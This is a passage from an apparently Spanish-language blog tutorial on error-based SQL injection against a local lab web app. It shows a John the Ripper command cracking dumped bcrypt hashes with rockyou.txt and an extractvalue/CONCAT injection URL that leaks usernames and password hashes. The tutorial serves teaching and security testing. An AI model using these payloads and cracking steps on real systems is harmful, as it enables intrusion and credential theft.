 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-bash-py-sqli-tables.png" style="width: 100%;"/>

### Script SQLi - Columnas

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-bash-py-sqli-columns.png" style="width: 100%;"/>

### Script SQLi - Información de columnas

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-bash-py-sqli-column-data.png" style="width: 100%;"/>

### Cracking [#](#post-explotacion-cracking) {#post-explotacion-cracking}

Ahora que contamos con varias contraseñas en formato hash, podemos emplear ataques de prueba y error ([fuerza bruta](https://latam.kaspersky.com/resource-center/definitions/brute-force-attack)) para intentar descubrir el valor en plano de esas credenciales.

Para esa labor existen varias herramientas, principalmente [hashcat](https://hashcat.net/hashcat/) y [john the ripper](https://www.openwall.com/john/), las cuales toman una palabra de un diccionario, le generan su hash y si ese hash es igual que el que proporcionamos, significa que hemos encontrado una combinación y conocemos el valor del hash en texto plano.

Entonces, colocamos los hashes en un archivo y jugamos. Con **John** debemos validar si el tipo de algoritmo es soportado, así que filtramos entre todos sus formatos buscando a `bcrypt`:

```bash
➧ john --list=formats | grep -i bcrypt
416 formats (149 dynamic formats shown as just "dynamic_n" here)
descrypt, bsdicrypt, md5crypt, md5crypt-long, bcrypt, scrypt, LM, AFS,
```

Existe, así que ejecutamos **John** con el diccionario (casi siempre se usa [rockyou.txt](https://www.keepersecurity.com/blog/es/2023/08/04/understanding-rockyou-txt-a-tool-for-security-and-a-weapon-for-hackers/), pero depende mucho del entorno y auditoria) y el archivo con las contraseñas:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt gamesatin_users_password.hashes
```

Esperamos un rato (recuerda, este algoritmo es difícil de derivar, o sea, si queremos crackear, va a ser lento el proceso) y encontramos un valor en texto plano:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-bash-john-found-plaintext-password.png" style="width: 100%;"/>

Solo que no sabemos de quién es, para ello podemos hacer una consulta SQL sencilla usando la función [CONCAT](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_concat), que concatena valores, la usaremos para que nos imprima tanto el nombre de usuario como su inicio de contraseña hasheada y ya sabríamos a quién pertenece esa contraseña:

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT CONCAT(username,":",password_hash) FROM gamesatin.gamesatin_users LIMIT 0,1)));#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-gamesatin-gamesatin_users-concat-username-password_hash-limit-0-1.png" style="width: 100%;"/>
